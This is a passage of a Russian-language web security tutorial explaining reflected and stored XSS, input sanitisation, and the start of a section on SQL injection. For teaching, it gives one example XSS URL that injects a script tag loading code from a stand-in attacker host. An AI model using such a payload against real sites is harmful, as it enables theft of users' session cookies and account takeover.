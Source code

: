 XSS (_Cross-Site Scripting_ - Межсайтовый скриптинг) это термин, используемый для описания типа атак, которые позволяют злоумышленнику внедрять вредоносный код _через_ веб-сайт в браузеры других пользователей. Поскольку внедрённый код поступает в браузер с сайта, он является _доверенным_ и может выполнять такие действия, как отправка авторизационного файла *cookie*пользователя злоумышленнику. Когда у злоумышленника есть файл _cookie_, он может войти на сайт, как если бы он был пользователем, и сделать все, что может пользователь, например, получить доступ к данным кредитной карты, просмотреть контактные данные или изменить пароли.

> **Примечание:** Уязвимости XSS исторически встречались чаще, чем любые другие виды угроз безопасности.

Уязвимости XSS делятся на _отражённые_ и _хранимые_, в зависимости от того, как сайт возвращает внедрённый код в браузер.

- _Отражённая_ XSS-уязвимость возникает, когда пользовательский контент, который передаётся на сервер, _немедленно_ и _без изменений_ возвращается для отображения в браузере. Любой скрипт в исходном пользовательском контенте запустится при загрузке новой страницы. Например, рассмотрим строку поиска по сайту, в которой поисковые слова закодированы как параметры URL, и эти слова отображаются вместе с результатами. Злоумышленник может создать поисковую ссылку, которая будет содержать вредоносный скрипт в качестве параметра (например: `http://mysite.com?q=beer<script%20src="http://evilsite.com/tricky.js"></script>`) и переслать его другому пользователю по электронной почте. Если целевой пользователь кликнет по этой «интересной ссылке», то скрипт выполнится при отображении результатов поиска. Как мы уже говорили, злоумышленник таким образом получает всю информацию, необходимую ему для входа на сайт в качестве целевого пользователя, потенциального совершения покупок от имени пользователя или получения его контактной информации.
- Постоянная уязвимость XSS возникает, когда вредоносный скрипт хранится на веб-сайте, а затем снова отображается без изменений, чтобы другие пользователи могли выполнять его невольно.

  Например, доска обсуждений, которая принимает комментарии, содержащие неизмененный HTML, может хранить вредоносный скрипт от злоумышленника. Когда комментарии отображаются, скрипт выполняется и может отправить злоумышленнику информацию, необходимую для доступа к учётной записи пользователя. Атака такого рода чрезвычайно популярна и мощна, потому что злоумышленник может даже не иметь прямого отношения к жертвам.

  Хотя данные из запросов POST или GET являются наиболее распространённым источником уязвимостей XSS, любые данные из браузера потенциально уязвимы, такие как данные cookie, отображаемые браузером, или пользовательские файлы, которые загружаются и отображаются.

  Наилучшей защитой от уязвимостей XSS является удаление или отключение любой разметки, которая потенциально может содержать инструкции по запуску кода. Для HTML это включает такие элементы, как \<script>, \<object>, \<embed> и \<link>.

  Процесс изменения пользовательских данных, чтобы их нельзя было использовать для запуска сценариев или иным образом влиять на выполнение серверного кода, называется очисткой ввода. Многие веб-фреймворки автоматически очищают пользовательский ввод от HTML-форм по умолчанию.

### SQL injection

Уязвимости SQL-инъекций позволяют злоумышленникам выполнять произвольный код SQL в базе данных, позволяя получать, изменять или удалять данные независимо от разрешений пользователя. Успешная инъекционная атака может подделать удостоверения, создать новые удостоверения с правами администратора, получить доступ ко всем данным на сервере или уничтожить / изменить данные, чтобы сделать их непригодными для использования.

Типы внедрения SQL включают внедрение SQL на основе ошибок, внедрение SQL на основе логических ошибок и внедрение SQL на основе времени.
